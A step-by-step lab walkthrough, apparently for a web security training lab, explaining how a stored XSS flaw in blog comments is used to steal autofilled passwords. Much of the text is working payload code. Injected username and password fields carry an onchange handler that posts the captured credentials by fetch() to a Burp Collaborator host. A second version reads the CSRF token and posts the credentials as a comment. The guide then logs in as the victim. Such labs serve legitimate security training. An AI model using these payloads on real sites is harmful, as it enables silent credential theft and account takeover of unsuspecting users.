

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify Stored XSS vulnerability in blog comments
- 🎯 Understand browser password autofill behavior
- 💉 Create fake login form to capture credentials
- 🌐 Use Burp Collaborator to exfiltrate data
- 🔑 Capture victim's username and password
- 🎉 Log in as victim to solve lab

---

## 🧠 **Concept Recap**

> **Exploiting cross-site scripting to capture passwords** occurs when an attacker leverages a stored XSS vulnerability to inject malicious HTML/JavaScript that creates fake password input fields. Modern browsers have a password autofill feature that automatically populates saved credentials when they detect `<input>` elements with `name="username"` and `type="password"`. By injecting these input fields and attaching an event handler that exfiltrates the values, attackers can steal credentials without any user interaction—the browser's autofill does all the work.

### 📊 **The Vulnerability**

**Normal blog comment functionality:**

```html
<section class="comment">
    
    <p>Great article!</p>
</section>
```

**Vulnerable comment system (allows HTML):**

```html
User submits comment:
<script>alert(1)</script>

Application stores it:
Database ← "<script>alert(1)</script>"

Application displays it:
<section class="comment">
    
    <p><script>alert(1)</script></p>
</section>

Browser executes:
alert(1) pops up! ✓

This is STORED XSS:
├── Attacker injects malicious script
├── Script stored in database
├── Script served to all users
└── Every visitor gets attacked! 💥
```

**How browsers handle password autofill:**

```html
Browser password manager:
┌─────────────────────────────────────┐
│ Saved Passwords                     │
├─────────────────────────────────────┤
│ example.com                         │
│   Username: administrator           │
│   Password: s3cr3tp@ssw0rd          │
└─────────────────────────────────────┘

When browser sees this HTML:
<input name="username">
<input type="password" name="password">

Browser thinks:
"These look like login fields!"
         ↓
"I have saved credentials for this domain!"
         ↓
"Let me autofill them!"
         ↓
Automatically fills:
- username field ← "administrator"
- password field ← "s3cr3tp@ssw0rd"

THIS HAPPENS AUTOMATICALLY!
No user interaction needed! ⚠️

The autofill triggers:
├── Browser detects password field
├── Checks for saved credentials
├── Matches domain
├── Autofills both fields
└── Happens instantly on page load! 💥
```

**The attack mechanism:**

```html
Attacker injects fake login form:

<input name=username id=username>
<input type=password name=password onchange="stealPassword()">

What happens:
1. Page loads with injected fields
2. Browser sees password field
3. Browser autofills saved credentials
4. Password field changes (autofill = change)
5. onchange event triggers
6. JavaScript executes
7. Credentials exfiltrated! 💀

Step-by-step browser behavior:

Initial state:
<input name=username id=username value="">
<input type=password name=password value="" onchange="stealPassword()">

Browser detects password field:
"I see type=password with name=password"
         ↓
"Let me check saved credentials..."
         ↓
"Found credentials for this domain!"

Autofill happens:
<input name=username id=username value="administrator">
<input type=password name=password value="s3cr3tp@ssw0rd" onchange="stealPassword()">
                                          ↑
                                          └── Value changed from "" to "s3cr3tp@ssw0rd"

onchange event fires:
"Value changed! Trigger onchange handler!"
         ↓
stealPassword() executes
         ↓
Credentials sent to attacker! 💥

The beauty of this attack:
✅ No user interaction required
✅ Automatic credential fill
✅ Instant exfiltration
✅ Silent and invisible
✅ Works on ANY page with stored XSS
```

**Why this attack is so effective:**

```js
Traditional phishing:
├── Create fake login page
├── Send link to victim
├── Wait for victim to visit
├── Wait for victim to enter credentials
└── Hope they fall for it

XSS password capture:
├── Inject payload once
├── Stored XSS = persistent
├── Browser autofills credentials
├── No user interaction needed
└── Automatic exfiltration! ✓

Comparison:

Phishing success rate: 10-30%
└── Requires user to:
    ├── Click link
    ├── Not notice fake URL
    ├── Enter credentials
    └── Submit form

XSS autofill success rate: 100%
└── Requires only:
    ├── Victim has saved password
    ├── Victim visits page
    └── Browser does the rest! ✓

Why it's powerful:
1. Leverages trusted browser feature
2. No suspicious activity
3. No user awareness needed
4. Works silently in background
5. Captures real credentials
6. From legitimate domain! 💥
```

**Understanding the payload components:**

```js
Complete attack payload:

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://COLLABORATOR',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">

Breaking it down:

Part 1: Username field
<input name=username id=username>
       ↑             ↑
       └─────────────┴── Both needed for proper autofill
                         - name for browser to recognize
                         - id for JavaScript to reference

Why this matters:
- name="username" → Browser knows it's username field
- id="username" → JavaScript can access it via: username.value
- Browser sees familiar pattern → Autofills!

Part 2: Password field
<input type=password name=password onchange="...">
       ↑             ↑              ↑
       |             |              └── Event handler (triggers on change)
       |             └── Browser recognizes as password field
       └── Makes field show ••• instead of text

Why type=password is crucial:
- Browser password managers look for type="password"
- Without it, no autofill happens
- With it, triggers credential fill
- Also masks the password visually (••••)

Part 3: Event handler
onchange="if(this.value.length)fetch(...)"
          ↑
          └── Event fires when field value changes

When onchange triggers:
├── User types in field → onchange fires
├── User pastes into field → onchange fires  
├── Browser autofills field → onchange fires ✓
└── JavaScript changes value → Does NOT fire

Why onchange is perfect:
- Autofill counts as a change
- Fires automatically
- No user action needed
- Instant exfiltration! ✓

Part 4: Conditional check
if(this.value.length)
   ↑
   └── Only execute if password field has content

Why this check:
- this.value = password field value
- this.value.length = number of characters
- If 0 characters → Don't send
- If >0 characters → Send! ✓

Prevents:
- Sending empty values
- False positives
- Wasted requests
- Only sends when real password present! ✓

Part 5: Fetch API call
fetch('https://COLLABORATOR',{...})
      ↑
      └── Modern JavaScript API for HTTP requests

Why fetch():
✅ Modern, clean syntax
✅ Promise-based
✅ Better than XMLHttpRequest
✅ Works cross-origin
✅ Perfect for exfiltration

Alternative methods:
- XMLHttpRequest (older, verbose)
- Image src (simpler but GET only)
- Form submission (more complex)
- WebSocket (overkill)

Part 6: Request configuration
{
  method:'POST',
  mode: 'no-cors',
  body:username.value+':'+this.value
}

method:'POST':
- HTTP POST request
- Sends data in body
- More secure than GET
- Can send larger payloads

mode: 'no-cors':
- Crucial for cross-origin requests!
- Tells browser: "Don't check CORS"
- Allows request to different domain
- Without this, request would fail! ⚠️

CORS explanation:
Normal CORS check:
Browser → "Can I send request to different domain?"
Server → Must respond with CORS headers
Browser → Checks if allowed
Browser → Allows or blocks request

no-cors mode:
Browser → "I'll send the request anyway"
Server → Doesn't need CORS headers
Browser → Request goes through! ✓
Note: Response is opaque (can't read it)
But we don't care! We just want to send data!

Part 7: Request body
body:username.value+':'+this.value
     ↑              ↑   ↑
     |              |   └── Password value (this.value)
     |              └── Separator
     └── Username value (username.value)

Data format: username:password
Example: administrator:s3cr3tp@ssw0rd

Why this format:
- Simple to parse
- Clear delimiter
- Easy to read in logs
- Standard convention ✓

How values are accessed:
username.value
├── username = id of input field
├── .value = gets the field's value
└── Returns string! ✓

this.value
├── this = the password field itself
├── .value = gets this field's value
└── Returns password string! ✓

Complete execution flow:

Step 1: Page loads
HTML rendered:
<input name=username id=username>
<input type=password name=password onchange="...">

Step 2: Browser scans page
Browser: "I see password field!"
Browser: "Do I have saved credentials?"
Browser: "Yes! For example.com"

Step 3: Autofill happens
Browser fills fields:
username field ← "administrator"
password field ← "s3cr3tp@ssw0rd"

Step 4: onchange fires
Password field value changed from "" to "s3cr3tp@ssw0rd"
         ↓
onchange event triggered
         ↓
JavaScript executes

Step 5: Conditional check
if(this.value.length)
   "s3cr3tp@ssw0rd".length = 14
   14 > 0 = true
   ✓ Execute fetch()

Step 6: Build request body
username.value = "administrator"
this.value = "s3cr3tp@ssw0rd"
Concatenate: "administrator:s3cr3tp@ssw0rd"

Step 7: Send request
fetch('https://BURP-COLLABORATOR.com', {
  method: 'POST',
  mode: 'no-cors',
  body: 'administrator:s3cr3tp@ssw0rd'
})

Step 8: Request sent
POST / HTTP/1.1
Host: BURP-COLLABORATOR.com
Content-Type: text/plain
Content-Length: 31

administrator:s3cr3tp@ssw0rd

Step 9: Attacker receives
Burp Collaborator logs:
[2025-02-08 12:34:56] POST request received
Body: administrator:s3cr3tp@ssw0rd

Step 10: Credentials stolen! 💀
Attacker has:
- Username: administrator
- Password: s3cr3tp@ssw0rd
- Can now log in! ✓
```

**Why Burp Collaborator?**

```js
What is Burp Collaborator:
├── External server controlled by Burp Suite
├── Provides unique subdomain for each user
├── Logs all HTTP/DNS interactions
├── Perfect for out-of-band data exfiltration
└── Professional security testing tool

Why use it for this lab:

Problem: Lab firewall blocks external requests
Solution: Collaborator is whitelisted ✓

Normal approach (blocked):
fetch('https://attacker.com/steal', {
  body: credentials
})
         ↓
Lab firewall: "Blocked! External domain!"
         ↓
Request fails ❌

Collaborator approach (allowed):
fetch('https://abc123.burpcollaborator.net', {
  body: credentials
})
         ↓
Lab firewall: "Collaborator domain? Allowed!"
         ↓
Request succeeds ✓

How Collaborator works:

Step 1: Get unique subdomain
Burp Collaborator tab → Copy to clipboard
Result: abc123def456.burpcollaborator.net

Step 2: Insert in payload
<input ... onchange="fetch('https://abc123def456.burpcollaborator.net',{...})">

Step 3: Victim triggers payload
Browser sends POST request
         ↓
To: abc123def456.burpcollaborator.net
Body: administrator:s3cr3tp@ssw0rd

Step 4: Collaborator receives
Burp Collaborator server logs:
├── Source IP
├── Timestamp  
├── Request method (POST)
├── Request body
└── All headers

Step 5: Poll for interactions
Burp Collaborator tab → "Poll now" button
         ↓
Retrieves all interactions
         ↓
Shows credentials! ✓

Benefits of Collaborator:
✅ Whitelisted by lab
✅ Unique subdomain per session
✅ Logs everything automatically
✅ Built into Burp Suite Pro
✅ Reliable and fast
✅ Perfect for testing! ✓

Alternative: Manual approach (without Collaborator)

Instead of exfiltrating to external server, post as comment:

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length){
  fetch('/post/comment', {
    method: 'POST',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'csrf=TOKEN&postId=1&comment='+encodeURIComponent(username.value+':'+this.value)+'&name=hacker&email=hack@er.com&website='
  })
}">

This would:
├── Capture credentials
├── Post them as a blog comment
├── Visible to everyone
└── Less subtle but works! ⚠️

Why Collaborator is better:
✅ Silent exfiltration
✅ Not visible to victims
✅ Not visible to other users
✅ Clean and professional
✅ Real-world technique ✓
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab and Initial Exploration**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the blog website
3. 🔍 Explore the blog posts and comments

**Homepage layout:**

```
┌────────────────────────────────────┐
│ Blog Website                       │
├────────────────────────────────────┤
│                                    │
│ Recent Posts:                      │
│                                    │
│ ┌──────────────────────────────┐   │
│ │ Post 1: "Security Best..."   │   │
│ │ [View post]                  │   │
│ └──────────────────────────────┘   │
│                                    │
│ ┌──────────────────────────────┐   │
│ │ Post 2: "Web Development..." │   │
│ │ [View post]                  │   │
│ └──────────────────────────────┘   │
│                                    │
└────────────────────────────────────┘
```

**Initial observations:**

```
✅ Multiple blog posts visible
✅ Each post has a "View post" link
💡 Comments functionality likely exists
💡 Let's explore a blog post
```

---

### 📝 **Step 2 — Navigate to Blog Post**

1. 🖱️ Click on any blog post title or "View post" button
2. 📜 Scroll down to see existing comments
3. 🔍 Locate the comment submission form

**Blog post page:**

```
┌────────────────────────────────────────┐
│ Blog Post Title                        │
├────────────────────────────────────────┤
│                                        │
│ Article content here...                │
│ Lorem ipsum dolor sit amet...          │
│                                        │
│────────────────────────────────────────│
│                                        │
│ 💬 Comments                            │
│                                        │
│ ┌──────────────────────────────────┐   │
│ │ User123:                         │   │
│ │ Great article!                   │   │
│ └──────────────────────────────────┘   │
│                                        │
│ Leave a comment:                       │
│ ┌──────────────────────────────────┐   │
│ │ Comment: [____________]          │   │
│ │ Name:    [____________]          │   │
│ │ Email:   [____________]          │   │ 
│ │ Website: [____________]          │   │
│ │          [Post Comment]          │   │
│ └──────────────────────────────────┘   │
└────────────────────────────────────────┘
```

**Comment form fields:**

```
Visible fields:
├── Comment: Large text area
├── Name: Text input
├── Email: Text input
├── Website: Text input (optional)
└── Submit button: "Post Comment"

This is our injection point! 🎯
```

---

### 🧪 **Step 3 — Test for Stored XSS**

Let's verify that the comment field is vulnerable to stored XSS.

1. 📝 In the **Comment** field, enter: `<script>alert('XSS')</script>`
2. ✏️ Fill in other fields:
    - Name: `Tester`
    - Email: `test@example.com`
    - Website: _(leave empty or fill)_
3. 🚀 Click **"Post Comment"**

**Confirmation page:**

```
┌────────────────────────────────────┐
│ Thank you for your comment!        │
│                                    │
│ [Back to Blog]                     │
└────────────────────────────────────┘
```

4. 🔙 Click **"Back to Blog"** or navigate back to the post
5. 📜 Scroll to comments section

**If vulnerable, you'll see:**

```
Alert popup:
┌────────────────────────────────────┐
│ This page says:                    │
│                                    │
│ XSS                                │
│                                    │
│            [OK]                    │
└────────────────────────────────────┘
```

**Analysis:**

```
✅ Alert popup appeared!
✅ JavaScript executed!
✅ Script stored in database!
✅ STORED XSS confirmed! 💥

This means:
├── Comment field accepts HTML/JavaScript
├── No input sanitization
├── Script persists in database
├── Executes every time page loads
└── Perfect for password capture! ✓

Stored XSS characteristics:
1. Persistent: Stored in database
2. Affects all users: Everyone who views sees it
3. No user interaction: Auto-executes on page load
4. High impact: Can attack multiple victims
5. Perfect for: Credential harvesting! 🎯
```

---

### 🔐 **Step 4 — Set Up Burp Collaborator**

**Note:** This requires **Burp Suite Professional**. If you don't have it, see Alternative Solution in Step 9.

1. 🌐 Open **Burp Suite Professional**
2. 🔧 Navigate to **Burp** menu → **Burp Collaborator client**

**Alternative navigation:**

```
Top menu bar:
Burp → Burp Collaborator client

OR

Top tabs:
Click on "Collaborator" tab (if visible)
```

**Collaborator client window:**

```
┌─────────────────────────────────────────┐
│ Burp Collaborator Client                │
├─────────────────────────────────────────┤
│                                         │
│ Server location:                        │
│ ● Default server                        │
│   burpcollaborator.net                  │
│                                         │
│ [Copy to clipboard]                     │
│ [Poll now]                              │
│                                         │
│ ─────────────────────────────────────── │
│                                         │
│ Interactions:                           │
│ (No interactions received yet)          │
│                                         │
└─────────────────────────────────────────┘
```

3. 🖱️ Click **"Copy to clipboard"**

**What gets copied:**

```r
Format: UNIQUE-ID.burpcollaborator.net

Example: abc123def456gh789.burpcollaborator.net

This is YOUR unique subdomain:
├── Unique to this session
├── Routes to Burp Collaborator server
├── Logs all interactions
├── Expires after some time
└── Used for out-of-band testing ✓
```

4. 📋 Save this somewhere temporarily (Notepad, text editor, etc.)

**Collaborator subdomain structure:**

```r
Full domain: abc123def456gh789.burpcollaborator.net
             ↑                  ↑
             |                  └── Base domain (Burp's server)
             └── Your unique identifier

This will be used in payload as:
https://abc123def456gh789.burpcollaborator.net

Any request to this domain:
├── Goes to Burp's server
├── Gets logged automatically
├── You can retrieve via "Poll now"
└── Perfect for exfiltration! ✓
```

---

### 💉 **Step 5 — Craft the Password Stealing Payload**

Now we'll create the malicious payload that captures passwords.

**Base payload structure:**

```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

**Customize the payload:**

1. 📝 Take the Collaborator subdomain you copied
2. ✏️ Replace `YOUR-COLLABORATOR-SUBDOMAIN` with your actual subdomain

**Example:**

```js
If your Collaborator subdomain is:
abc123def456gh789.burpcollaborator.net

Your complete payload becomes:
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://abc123def456gh789.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

**Payload explanation:**

```js
Line 1: <input name=username id=username>
- Creates username input field
- name=username → Browser recognizes it
- id=username → JavaScript can reference it
- Browser will autofill this!

Line 2: <input type=password name=password onchange="...">
- Creates password input field
- type=password → Shows ••• instead of text
- name=password → Browser recognizes it
- onchange="..." → Triggers when value changes

Line 3-6: The JavaScript exfiltration code
- if(this.value.length) → Only if password filled
- fetch('https://...') → Send HTTP request
- method:'POST' → Use POST method
- mode: 'no-cors' → Bypass CORS restrictions
- body:username.value+':'+this.value → Send "username:password"

How it works when victim views:
1. Browser loads page with injected HTML
2. Browser sees password input field
3. Browser checks: "Do I have saved password?"
4. Browser autofills username and password
5. Password field changes from empty to filled
6. onchange event fires automatically
7. JavaScript executes fetch()
8. Credentials sent to Collaborator
9. Attacker retrieves via "Poll now"
10. Credentials stolen! 💀
```

**Important notes:**

```
✓ DO use your actual Collaborator subdomain
✓ DO include the full https:// URL
✓ DO keep the exact JavaScript syntax
✓ DO copy the payload as-is (one line HTML)

✗ DON'T add extra spaces or line breaks
✗ DON'T modify the JavaScript logic
✗ DON'T forget to replace the placeholder
✗ DON'T use a random external domain
```

---

### 📤 **Step 6 — Inject the Payload in a Comment**

1. 🔙 Go back to the blog post page
2. 📜 Scroll to the comment submission form
3. 📝 In the **Comment** field, paste your complete payload:

```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

4. ✏️ Fill in the other fields:
    - **Name:** `Security Tester` (or anything)
    - **Email:** `test@example.com` (or anything)
    - **Website:** _(leave empty or fill)_

**Comment form with payload:**

```
┌──────────────────────────────────────┐
│ Comment: [<input name=username id=...│
│           <input type=password name=.│
│           ...});">                   │
│                                      │
│ Name:    [Security Tester]           │
│ Email:   [test@example.com]          │
│ Website: [                    ]      │
│          [Post Comment]              │
└──────────────────────────────────────┘
```

5. 🚀 Click **"Post Comment"**

**Confirmation:**

```
┌────────────────────────────────────┐
│ Thank you for your comment!        │
│                                    │
│ [Back to Blog]                     │
└────────────────────────────────────┘
```

6. 🔙 Click **"Back to Blog"** to return to the post

---

### 👁️ **Step 7 — Verify Payload Injection**

Let's verify the payload was stored correctly.

1. 📜 Scroll down to the comments section
2. 👀 Look for your comment

**What you should see:**

```
┌────────────────────────────────────┐
│ 💬 Comments                        │
│                                    │
│ ┌──────────────────────────────┐   │
│ │ Security Tester:             │   │
│ │                              │   │
│ │ [____________]               │   │ ← Username field
│ │ [••••••••••••]               │   │ ← Password field (hidden)
│ │                              │   │
│ └──────────────────────────────┘   │
└────────────────────────────────────┘
```

**If you see input fields:**

```
✅ Payload injected successfully!
✅ HTML rendered as form elements
✅ Username field visible
✅ Password field visible (but masked)

This confirms:
├── Stored XSS worked
├── HTML was not sanitized
├── Input fields are live
└── Ready to capture passwords! ✓
```

**Testing autofill yourself (optional):**

```
If you have saved passwords in browser:
1. Look at the username field
2. Look at the password field
3. They might be autofilled already!
4. This proves the attack works ✓

Note: Don't fill them manually!
The attack relies on AUTOMATIC autofill
by the victim's browser, not manual entry.
```

**Behind the scenes:**

```js
What's stored in database:
<input name=username id=username><input type=password name=password onchange="if(this.value.length)fetch('https://abc123.burpcollaborator.net',{method:'POST',mode: 'no-cors',body:username.value+':'+this.value});">

What victim sees in HTML:
<section class="comment">
    
    <p>
        <input name=username id=username>
        <input type=password name=password onchange="if(this.value.length)fetch('https://abc123.burpcollaborator.net',{method:'POST',mode: 'no-cors',body:username.value+':'+this.value});">
    </p>
</section>

What browser does:
1. Renders input fields
2. Detects password field
3. Checks saved credentials
4. Autofills both fields
5. Triggers onchange
6. Executes JavaScript
7. Sends credentials! 💥
```

---

### ⏳ **Step 8 — Wait for Victim to View Comment**

The lab description states: _"A simulated victim user views all comments after they are posted."_

**What happens now:**

```r
Lab simulation process:

1. You posted comment with payload
         ↓
2. Comment stored in database
         ↓
3. Lab simulates victim visiting page
         ↓
4. Victim's browser loads page
         ↓
5. Victim's browser renders your comment
         ↓
6. Browser sees password input field
         ↓
7. Browser autofills victim's credentials
         ↓
8. onchange event fires
         ↓
9. JavaScript exfiltrates credentials
         ↓
10. Request sent to Burp Collaborator
         ↓
11. Credentials captured! ✓

Timeline:
Post comment → Wait ~10-30 seconds → Victim views → Credentials exfiltrated

The wait time is usually:
├── 10-30 seconds (typically)
├── Lab processes the comment
├── Simulates victim visit
└── Credentials are sent! ✓
```

**During this wait:**

```
What NOT to do:
✗ Don't refresh the page frantically
✗ Don't post multiple identical comments
✗ Don't close Burp Suite
✗ Don't change anything

What to do:
✓ Wait patiently (~30 seconds)
✓ Keep Burp Suite open
✓ Keep Collaborator tab ready
✓ Get ready to poll! ✓
```

---

### 🎣 **Step 9 — Poll Burp Collaborator for Interactions**

After waiting ~30 seconds, let's check if credentials were received.

1. 🔙 Go back to **Burp Suite**
2. 🔧 Navigate to **Burp Collaborator client** tab
3. 🔄 Click **"Poll now"** button

**Collaborator polling:**

```
┌─────────────────────────────────────────┐
│ Burp Collaborator Client                │
├─────────────────────────────────────────┤
│                                         │
│ [Copy to clipboard]                     │
│ [Poll now]  ← Click this!               │
│                                         │
│ ─────────────────────────────────────── │
│                                         │
│ Interactions:                           │
│                                         │
│ ┌─────────────────────────────────┐     │
│ │ 📨 HTTP POST                    │     │
│ │ Time: 12:34:56                  │     │
│ │ From: 10.0.3.x                  │     │
│ │ Protocol: HTTP                  │     │
│ │ [Details]                       │     │
│ └─────────────────────────────────┘     │
│                                         │
└─────────────────────────────────────────┘
```

**If you see an interaction:**

```
✅ HTTP request received!
✅ Victim triggered the payload!
✅ Credentials were exfiltrated!
✅ Click on the interaction to see details!
```

4. 🖱️ Click on the **HTTP POST** interaction

**Interaction details:**

```HTTP
┌────────────────────────────────────────────┐
│ Request Details                            │
├────────────────────────────────────────────┤
│                                            │
│ Request type: HTTP                         │
│ Protocol: HTTP/1.1                         │
│ Method: POST                               │
│ Path: /                                    │
│                                            │
│ Request:                                   │
│┌─────────────────────────────────────────┐ │
││ POST / HTTP/1.1                         │ │
││ Host: abc123.burpcollaborator.net       │ │
││ Content-Type: text/plain                │ │
││ Content-Length: 31                      │ │
││ Origin: https://LAB-ID.web-security-... │ │
││                                         │ │
││ administrator:h7k9m2p4q8w3              │ │ ← CREDENTIALS!
│└─────────────────────────────────────────┘ │
│                                            │
└────────────────────────────────────────────┘
```

**Look for the request body:**

```HTTP
The credentials are in the POST body:
administrator:h7k9m2p4q8w3
↑             ↑
|             └── Password
└── Username

Format: username:password
Separated by colon (:)
```

5. 📝 **Copy the credentials:**
    - Username: `administrator`
    - Password: `h7k9m2p4q8w3` _(your password will be different)_

**Understanding the exfiltrated data:**

```HTTP
Request breakdown:

POST / HTTP/1.1
↑    ↑
|    └── Path (root)
└── Method

Host: abc123.burpcollaborator.net
└── Your Collaborator subdomain

Content-Type: text/plain
└── Plain text body

Body: administrator:h7k9m2p4q8w3
      ↑             ↑
      |             └── From: this.value (password field)
      └── From: username.value (username field)

This data came from:
body:username.value+':'+this.value
      ↑             ↑   ↑
      |             |   └── Password
      |             └── Separator
      └── Username

Complete JavaScript execution:
username.value = "administrator"
this.value = "h7k9m2p4q8w3"
body = "administrator" + ":" + "h7k9m2p4q8w3"
body = "administrator:h7k9m2p4q8w3"

Sent to Collaborator! ✓
```

**If you don't see any interactions:**

```
Troubleshooting:

1. Wait longer (try 60 seconds)
2. Click "Poll now" again
3. Check if payload was correct
4. Verify Collaborator subdomain in payload
5. Make sure you used YOUR subdomain
6. Try posting comment again
7. Check Burp Suite is still running

Common issues:
✗ Used wrong Collaborator subdomain
✗ Syntax error in payload
✗ Didn't wait long enough
✗ Burp Suite disconnected
```

---

### 🔓 **Step 10 — Log In as the Victim**

Now let's use the stolen credentials to access the victim's account.

1. 🌐 Go back to the lab page (blog website)
2. 🖱️ Look for **"My account"** link (usually top-right corner)
3. 🔗 Click **"My account"**

**Login page:**

```
┌────────────────────────────────────┐
│ Login                              │
├────────────────────────────────────┤
│                                    │
│ Username: [____________]           │
│                                    │
│ Password: [____________]           │
│                                    │
│          [Log in]                  │
│                                    │
└────────────────────────────────────┘
```

4. ✏️ Enter the stolen credentials:
    
    - **Username:** `administrator` _(from Collaborator)_
    - **Password:** `h7k9m2p4q8w3` _(from Collaborator)_
5. 🚀 Click **"Log in"**
    

**Successful login:**

```
┌────────────────────────────────────┐
│ My account                         │
├────────────────────────────────────┤
│                                    │
│ Your username: administrator       │ ← You're logged in!
│                                    │
│ Your email: admin@example.com      │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

**Success indicators:**

```
✅ Page shows "My account" or account details
✅ Shows username: administrator
✅ No error messages
✅ Successfully authenticated! ✓
```

---

### ✅ **Step 11 — Lab Solved!**

As soon as you successfully log in as the victim (administrator), the lab will be marked as solved!

**Completion banner:**

```
┌─────────────────────────────────────────┐
│  ✅ Congratulations!                    │
│                                         │
│  You successfully exploited stored XSS  │
│  to capture the victim's password using │
│  browser autofill, exfiltrated the      │
│  credentials via Burp Collaborator, and │
│  logged in as the victim user.          │
│                                         │
│  Lab: Exploiting cross-site scripting   │
│       to capture passwords              │
│  Status: SOLVED ✓                       │
└─────────────────────────────────────────┘
```

**What you accomplished:**

```
Attack chain completed:
1. ✅ Identified stored XSS in blog comments
2. ✅ Set up Burp Collaborator for exfiltration
3. ✅ Crafted password capture payload
4. ✅ Injected payload via comment
5. ✅ Exploited browser autofill feature
6. ✅ Exfiltrated credentials automatically
7. ✅ Retrieved credentials from Collaborator
8. ✅ Logged in as victim user
9. ✅ Lab solved! 🎉

Impact demonstrated:
├── Credential theft via XSS
├── Abuse of browser autofill
├── Silent, automated exfiltration
├── No victim interaction needed
└── Complete account takeover! 💥
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         ↓
Step 2: Navigate to blog post
         → Multiple blog posts available ✓
         ↓
Step 3: Test for stored XSS
         → Post comment: <script>alert('XSS')</script>
         → View post → Alert fires! ✓
         → Stored XSS confirmed! 💥
         ↓
Step 4: Set up Burp Collaborator
         → Open Burp Suite Professional
         → Collaborator tab → Copy to clipboard
         → Get unique subdomain: abc123.burpcollaborator.net ✓
         ↓
Step 5: Craft password stealing payload
         → Create fake login form inputs
         → Add onchange event handler
         → Configure fetch() to Collaborator
         → Payload: <input name=username id=username><input type=password name=password onchange="if(this.value.length)fetch('https://COLLABORATOR',{method:'POST',mode:'no-cors',body:username.value+':'+this.value});">
         ↓
Step 6: Inject payload in comment
         → Paste complete payload in comment field
         → Fill name, email fields
         → Post comment ✓
         ↓
Step 7: Verify payload injection
         → View blog post
         → See username and password input fields
         → Payload successfully stored! ✓
         ↓
Step 8: Wait for victim to view
         → Lab simulates victim visiting page
         → Wait ~10-30 seconds
         → Victim's browser loads malicious comment
         ↓
Step 9: Browser autofill triggers
         → Browser detects password input field
         → Browser checks saved credentials
         → Browser autofills username + password
         → onchange event fires automatically
         → JavaScript executes fetch()
         → Credentials sent to Collaborator! 💥
         ↓
Step 10: Poll Burp Collaborator
         → Collaborator tab → Click "Poll now"
         → HTTP POST interaction received! ✓
         → View request details
         → Body contains: administrator:PASSWORD
         → Credentials captured! 🎯
         ↓
Step 11: Log in as victim
         → Go to "My account" page
         → Enter stolen username
         → Enter stolen password
         → Click "Log in"
         → Successfully authenticated! ✓
         ↓
Step 12: Lab solved! 🎉
```

---

## 🎯 **Alternative Solution (Without Burp Collaborator)**

**For Burp Suite Community Edition users:**

If you don't have Burp Suite Professional, you can use an alternative approach that posts the credentials as a blog comment instead of exfiltrating to an external server.

**Alternative payload:**

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length){
var csrf = document.getElementsByName('csrf')[0].value;
fetch('/post/comment', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded'},
  body: 'csrf='+csrf+'&postId=1&comment='+encodeURIComponent(username.value+':'+this.value)+'&name=Stolen&email=stolen@example.com&website='
})
}">
```

**How this alternative works:**

```
Instead of sending to external server:
         ↓
Send credentials as a blog comment!

Execution flow:
1. Victim views malicious comment
2. Browser autofills credentials
3. onchange triggers
4. JavaScript captures CSRF token
5. JavaScript posts new comment with credentials
6. You view the blog post
7. See new comment with "username:password"
8. Credentials stolen! ✓

Pros:
✅ Works without Burp Suite Pro
✅ No external server needed
✅ Uses same autofill technique
✅ Still captures credentials

Cons:
❌ Less subtle (credentials visible to everyone)
❌ Leaves evidence of attack
❌ Victim might see their password posted
❌ Not a real-world technique
```

**Steps for alternative solution:**

```
1. Find the post ID
   → View page source
   → Look for: <input name="postId" value="X">
   → Note the number X

2. Modify payload
   → Replace postId=1 with postId=X
   → Use your actual post ID

3. Post the comment
   → Same as main solution
   → Wait for victim to view

4. Check comments
   → Refresh the blog post
   → Look for new comment from "Stolen"
   → Contains: username:password
   → Copy credentials

5. Log in as victim
   → Use captured credentials
   → Lab solved! ✓

Note: The lab description mentions this alternative
is "far less subtle" than using Collaborator.
For learning and real-world scenarios,
the Collaborator method is preferred! ✓
```

---

## ⚙️ **Understanding the Attack**

### **Why Browser Autofill is Dangerous**

```js
Browser password managers are convenient:
├── Save passwords automatically
├── Autofill on login pages
├── Sync across devices
